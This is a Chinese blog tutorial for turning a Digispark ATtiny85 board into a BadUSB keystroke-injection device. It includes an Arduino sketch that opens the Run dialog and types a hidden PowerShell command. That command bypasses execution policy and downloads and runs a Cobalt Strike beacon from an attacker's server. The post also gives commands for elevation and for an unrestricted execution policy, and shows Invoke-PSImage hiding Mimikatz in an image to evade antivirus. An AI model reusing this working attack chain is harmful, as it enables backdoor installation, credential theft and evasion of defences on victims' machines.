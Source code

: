 ```yaml
---
layout: post
title:  "BadUsb HID"
date:   2022-11-17 11:21:00 +0800
tags: HID badusb 
color: rgb(128,128,128)
cover: '../assets/papercover/cute2.png'
subtitle: 'BadUsb HID exper by Anoxia!'
---
```


author: by Anoxia  
check: by yako33

#### HID原理：
利用HID进行攻击，将USB设备伪装使电脑识别为键盘，利用模拟键盘或者针脚爆破的方式强行攻击，最为常见的方式badusb，或者可以使用其他typec设备对android等设备进行针脚暴力破解等，其中针对badusb有2种制作方向，一种是usb的驱动加载来实现，一种是模拟键盘操作加载来实现，两种方式的目的都是为了突破验证手段。

#### 漏洞产生原因：
USB设备通常在加载时所要求的权限并不高，行为也很难被识别，所以系统的安全防护软件通常对这类硬件设备的检测力度不够严格，即使在工业生产中所使用的防护设备通常以USB只读的方式运行，但仍然可以通过插入usb设备时的加载文件进行Bypass

#### 前期准备：
准备ATTINY85 Digispark(Attiny85)微型USB开发板(本文中作者使用的设备)，如图：


<ul>
<li  markdown="1" style="list-style-type: none;">
![1]({{site.url}}/screenshot/20221117badusb/1.png)
</li>
</ul>


使用该设备需要安装驱动，博主更加推荐的设备为Arduino Leonardo (Atmega32u4)，但价格会更高一些。

同时可以选择的开发板为
Arduino Micro (Atmega32u4)
Chineese Arduino Leonardo clones (Atmega32u4)
Teensy 2.0 (Atmega32u4)
Phoenix Ovipositor (Atmega32u4)


#### arduino ide环境配置：
打开文件->首选项，在附加开发板管理器中添加地址：[https://raw.githubusercontent.com/digistump/arduino-boards-index/master/package_digistump_index.json](https://raw.githubusercontent.com/digistump/arduino-boards-index/master/package_digistump_index.json)

<ul>
<li  markdown="1" style="list-style-type: none;">
![3]({{site.url}}/screenshot/20221117badusb/3.png)
</li>
</ul>

然后选择开发板管理器，进去后会自动下载索引，如果未下载成功，开启科学上网重新下载

<ul>
<li  markdown="1" style="list-style-type: none;">
![4]({{site.url}}/screenshot/20221117badusb/4.png)
</li>
</ul>

然后搜索 "Digistump AVR Boards by Digistump"  进行安装,再在开发板中选择 Digispark（Default-16.5mhz） 

<ul>
<li  markdown="1" style="list-style-type: none;">
![5]({{site.url}}/screenshot/20221117badusb/5.png)
</li>
</ul>

  再选择开发板

<ul>
<li  markdown="1" style="list-style-type: none;">
![6]({{site.url}}/screenshot/20221117badusb/6.png)
</li>
</ul>

#### BadUsb制作：
利用cs生成一个ps1的木马文件，使用ps1文件的原因是因为目前windows系统中普遍支持Powershell，并且可以直接在命令行中运行，测试起来比较方便，实际攻击过程中可能还是会使用标准的木马文件。此处为了方便测试简单监听在vps上用python（python2 -m SimpleHTTPServer 8888）起一个http服务把这个木马文件放上去,具体使用的方式非常多样。

<ul>
<li  markdown="1" style="list-style-type: none;">
![7]({{site.url}}/screenshot/20221117badusb/7.png)
</li>
</ul>

<br />需要将以下代码烧录进开发板中,将ip换成刚才的vps服务器的

```arduino
#include "DigiKeyboard.h"		//定义使用虚拟键盘函数库
#define KEY_ESC     41
#define KEY_BACKSPACE 42
#define KEY_TAB     43
#define KEY_PRT_SCR 70
#define KEY_DELETE  76

//在初始化中运行，意思是在插入读取时运行
void setup() {

DigiKeyboard.sendKeyStroke(0);
//延时，等待确保执行完成
DigiKeyboard.delay(1000);	
//上面这两个输入是windows键+r键盘
DigiKeyboard.sendKeyStroke(KEY_R,MOD_GUI_LEFT);	
//延时	
DigiKeyboard.delay(1000);	
//输入powershell的弹shell的代码（要绕杀毒需做免杀）
DigiKeyboard.print(F("powershell -WindowStyle Hidden -NoLogo -executionpolicy bypass IEX(New-Object Net.WebClient).DownloadString('http://ip:port/beacon.ps1');"));	
DigiKeyboard.delay(500);
//输入enter键盘
DigiKeyboard.sendKeyStroke(KEY_ENTER);	
DigiKeyboard.delay(750);
DigiKeyboard.sendKeyStroke(KEY_ENTER);

}
void loop() {
  //主逻辑循环这里未使用所以没有编写，可以在此处完成后渗透维权相关操作。
}
```
将代码复制到arduinoide进行烧录，点击上传后看到下面这样的代表编译成功。然后在60秒内插入BadUsb进行烧录

<ul>
<li  markdown="1" style="list-style-type: none;">
![8]({{site.url}}/screenshot/20221117badusb/8.png)
</li>
</ul>

这样就代表烧录成功了，拔下来然后就可以使用了

<ul>
<li  markdown="1" style="list-style-type: none;">
![9]({{site.url}}/screenshot/20221117badusb/9.png)
</li>
</ul>


#### 实际过程中的注意点：
关于静默执行部分：

在模拟键盘操作部分可以添加下面的命令，来更好的命中
```bat
//powershell中开启管理员权限，此处没有隐藏窗口，需要自行添加
start-process PowerShell -verb runas
//以cmd中以管理员打开powershell
powershell start-process powershell -verb runas
//部分windows由于，默认不开启ps1执行，在管理员权限下执行
//可以先获取当前权限，如果编写判断，如果权限不足可以设置如RemoteSigned/Restricted
Get-ExecutionPolicy
//设置权限为无认证可以执行
set-executionpolicy -executionpolicy unrestricted
//在选择中选择A，全是
A
//接下来继续执行后门链接操作。
```
<ul>
<li  markdown="1" style="list-style-type: none;">
![10]({{site.url}}/screenshot/20221117badusb/10.png)
</li>
</ul>


关于ps1免杀部分：

一种可以使用免杀混淆(推荐这种，目前主要使用)，一种是直接使用键盘命令，使用arduino重构指令(比较麻烦也算是种思路)。

使用[Invoke-PSImage](https://github.com/peewpw/Invoke-PSImage)免杀，官方的使用说明中已经说的非常清楚了，使用也很简单(位图免杀混淆此处不讨论。)

```powershell
PS>Import-Module .\Invoke-PSImage.ps1
//这里可以使用-WebRequest生成URL的请求。
PS>Invoke-PSImage -Script .\Invoke-Mimikatz.ps1 -Out .\evil-kiwi.png -Image .\kiwi.jpg
```
值得注意的是，在Invoke-PSImage中可能会遇到生成文件过大失败的情况，而在cs生成的ps1中有很多代码都在if判断中不会被执行可以删除，删除之后可以解决这个问题。


另一种为自己写代码实现自己想要输入的键盘命令,部分代码,如果使用键盘重构可以打乱编码顺序进行混淆，下面是参考网上的代码作为布局参考:
```arduino
#定义或头相关
#ifndef __DigiKeyboard_h__
...
#include "scancode-ascii-table.h"
#定义类型
...
#重构键盘
PROGMEM char usbHidReportDescriptor[USB_CFG_HID_REPORT_DESCRIPTOR_LENGTH] = { /* USB report descriptor */
  0x05, 0x01,                    // USAGE_PAGE (Generic Desktop) 
  0x09, 0x06,                    // USAGE (Keyboard) 
...
  0x29, 0x65,                    //   USAGE_MAXIMUM (Keyboard Application) 
  0x81, 0x00,                    //   INPUT (Data,Ary,Abs) 
  0xc0                           // END_COLLECTION 
};

#define MOD_CONTROL_LEFT    (1<<0)
...
#define MOD_GUI_RIGHT       (1<<7)

#define KEY_A       4
...
#define KEY_F12     69

//自定义键盘类，并在初始化中完成操作
class DigiKeyboardDevice : public Print {
 public:
  DigiKeyboardDevice () {
    cli();
    usbDeviceDisconnect();
    _delay_ms(250);
    usbDeviceConnect();
    usbInit();     
    sei();
    memset(reportBuffer, 0, sizeof(reportBuffer));      
    usbSetInterrupt(reportBuffer, sizeof(reportBuffer));
  }
    
  void update() {
    usbPoll();
  }
	
...
//实例化
DigiKeyboardDevice DigiKeyboard = DigiKeyboardDevice();
...
```
